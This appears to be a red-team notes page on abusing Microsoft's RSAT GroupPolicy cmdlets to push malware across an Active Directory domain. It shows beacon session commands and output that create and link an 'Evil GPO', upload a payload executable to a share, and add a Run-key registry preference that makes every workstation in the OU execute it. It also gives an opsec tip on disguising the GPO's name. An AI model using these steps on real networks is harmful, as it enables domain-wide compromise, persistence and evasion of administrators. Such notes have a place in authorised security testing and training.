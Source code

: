 # Remote Server Administration Tools (RSAT)

RSAT is a management component provided by Microsoft to help manage components in a domain. Since it's a legitimate management tool and often found on management workstations and servers, it can be useful to leverage without having to bring in external tooling.

The GroupPolicy module has several PowerShell cmdlets that can be used for administering GPOs, including:

-   New-GPO: Create a new, empty GPO.
-   New-GPLink: Link a GPO to a site, domain or OU.
-   Set-GPPrefRegistryValue: Configures a Registry preference item under either Computer or User Configuration.
-   Set-GPRegistryValue: Configures one or more registry-based policy settings under either Computer or User Configuration.
-   Get-GPOReport: Generates a report in either XML or HTML format.

## Installations
Check if the GroupPolicy module is installed:
`Get-Module -List -Name GroupPolicy | select -expand ExportedCommands`.
As a local admin install it with:
`Install-WindowsFeature –Name GPMC`

## [[Group Policy (GPO)]]
Create a new GPO and immediately link it to the target OU:

#OPSEC The GPO will be visible in the Group Policy Management Console and other RSAT GPO tools, so make sure the name is "convincing".
``````beacon
beacon> getuid
[*] You are EDU\doe

beacon> powershell New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=edu,DC=evil,DC=corp"

GpoId       : d9de5634-cc47-45b5-ae52-e7370e4a4d22
DisplayName : Evil GPO
Enabled     : True
Enforced    : False
Target      : OU=Workstations,DC=edu,DC=evil,DC=corp
Order       : 4
``````

## Distribute Malware
1. Identify share [[PowerView#Identify Shares]] or create share [[Create Share]]
2. Upload malware
``````beacon
beacon> cd \\dc-2\software
beacon> upload C:\Payloads\pivot.exe
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 281kb    fil     03/10/2022 13:54:10   pivot.exe
``````
3. Create GPO (be very carefull what you do)
``````beacon
beacon> powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "%COMSPEC% /b /c start /b /min \\dc-2\software\pivot.exe" -Type ExpandString

DisplayName      : Evil GPO
DomainName       : edu.evil.corp
Owner            : EDU\doe
Id               : d9de5634-cc47-45b5-ae52-e7370e4a4d22
GpoStatus        : AllSettingsEnabled
Description      : 
CreationTime     : 5/26/2022 2:35:02 PM
ModificationTime : 5/26/2022 2:42:08 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 1, SysVol Version: 1
WmiFilter        :
``````
4. Wait. Every machine will typically refresh their GPOs automatically every couple of hours.




```meta
requirements: 
results: 
oss: #win
source: Windows additional features
description: Help administrate AD environments
```